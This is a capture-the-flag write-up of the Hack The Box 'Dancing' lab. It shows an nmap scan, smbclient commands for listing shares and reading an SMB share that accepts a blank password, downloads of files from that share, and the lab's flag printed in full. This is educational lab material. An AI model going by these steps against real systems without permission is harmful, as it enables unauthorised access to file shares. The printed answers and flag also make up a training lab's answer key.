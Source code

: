 ```yaml
---
title: "[HTB] Dancing"
author: "Wook Lee"
date: "2024-06-17"
tags: ["hack the box"]
---
```


> _Hack The Box_ starting point, tier 0, very easy, #3 machine: Dancing.
> Lets' go!

![lets_go](./lets_go.gif)

</br>

##### TASK 1

What does 3-letter acronym SMB stand for?

```
Server Message Block
```

SMB protocol implements an application-layer network protocol used to access resources on a server, such as file shares and shared printers.

</br>

##### TASK 2

What port does SMB use to operate at?

```
445
```

When I researched about SMB, I found that SMB uses either IP port 139 or 445.

Port 139: SMB originally ran on top of NetBIOS using port 139. NetBIOS is an old transport layer that allows Windows computers to talk to each other on the same network.
Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack. Using TCP allows SMB to work over the internet.

</br>

##### TASK 3

what is the service name for port 445 that came up in our Nmap scan?

```
microsoft-ds
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ nmap -sC -sV 10.129.1.12
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-17 17:42 BST
Nmap scan report for 10.129.1.12
Host is up (0.027s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

</br>

##### TASK 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```
-L
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ smbclient --help
Usage: smbclient [OPTIONS] service <password>
-M, --message=HOST Send message
-I, --ip-address=IP Use this IP to connect to
-E, --stderr Write messages to stderr
instead of stdout
-L, --list=HOST Get a list of shares available
on a host
-T, --tar=<c|x>IXFvgbNan Command line tar
-D, --directory=DIR Start from directory
-c, --command=STRING Execute semicolon separated
commands
-b, --send-buffer=BYTES Changes the transmit/send buffer
-t, --timeout=SECONDS Changes the per-operation
timeout
-p, --port=PORT Port to connect to
-g, --grepable Produce grepable output
-q, --quiet Suppress help message
-B, --browse Browse SMB servers using DNS
```

</br>

##### TASK 5

How many shares are there on Dancing?

```
4
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ smbclient -L 10.129.1.12
Password for [WORKGROUP\leewookb]:

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    WorkShares      Disk

SMB1 disabled -- no workgroup available
```

</br>

##### TASK 6

What is the name of the share we are able to access in the end with a blank password?

```
WorkShares
```

Running the `smbclient -L 10.129.1.12` command, we can see that four separate shares are displayed. The default administrative shares often include the $ symbol at the end of their name to indicate they are hidden shares. As we can see that `ADMIN$` , `C$`, `IPC$` shares all include the symbol at the end. On the other hand, `WorkShares` share does not include this symbol, which is an indicator that it is a user-created, or custom, share.

</br>

##### TASK 7

What is the command we can use within the SMB shell to download the files we find?

```
get
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ smbclient \\\\10.129.1.12\\WorkShares
Password for [WORKGROUP\leewookb]:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Mon Mar 29 09:22:01 2021
.. D 0 Mon Mar 29 09:22:01 2021
Amy.J D 0 Mon Mar 29 10:08:24 2021
James.P D 0 Thu Jun 3 09:38:03 2021
```

In order to connect to the custom share, `WorkShares` , we need to specify the target's IP address and the target SMB share. The command is `smbclient \\\\{target_IP}\\{target_share}`.

- The double backslashes ('\\\\') are used to escape the backslashes in the path.
- The path `{target_IP}\\WorkShares` refers to the "WorkShares" share on the machine identified by '{target_IP}'
- We were able to connect to the custom share and I used the command ls to list all of the contents of the directories within the share. The command showed us two directories, one is `Amy.J` and another is `James.P` .

```zsh
smb: \> cd Amy.J
smb: \Amy.J\> ls
. D 0 Mon Mar 29 10:08:24 2021
.. D 0 Mon Mar 29 10:08:24 2021
worknotes.txt A 94 Fri Mar 26 11:00:37 2021


    5114111 blocks of size 4096. 1733826 blocks available

smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> ls
. D 0 Mon Mar 29 09:22:01 2021
.. D 0 Mon Mar 29 09:22:01 2021
Amy.J D 0 Mon Mar 29 10:08:24 2021
James.P D 0 Thu Jun 3 09:38:03 2021

    5114111 blocks of size 4096. 1733810 blocks available

smb: \> cd James.P\
smb: \James.P\> ls
. D 0 Thu Jun 3 09:38:03 2021
.. D 0 Thu Jun 3 09:38:03 2021
flag.txt A 32 Mon Mar 29 10:26:57 2021

    5114111 blocks of size 4096. 1733785 blocks available

smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.7 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \James.P\>
```

I used `cd` command to visit Amy.J folder and found 'worknotes.txt' file, which we can download using the `get` command. Also we moved inside the James.P directory as well and downloaded the flag.txt file.

```zsh
smb: \James.P\> quit
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ ls
Desktop flag.txt IXFvgbNan my_data Templates worknotes.txt
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

Since we got everything we needed from the share, we can exit out of the SMB server and the files we downloaded are saved inside the location where we ran our `smbclient` command from.
<br/>
<br/>

##### SUBMIT FLAG

submit root flag

```
5f61c10dffbc77a704d76016a22f1664
```

![dancing_cleared](./dancing_img.png)
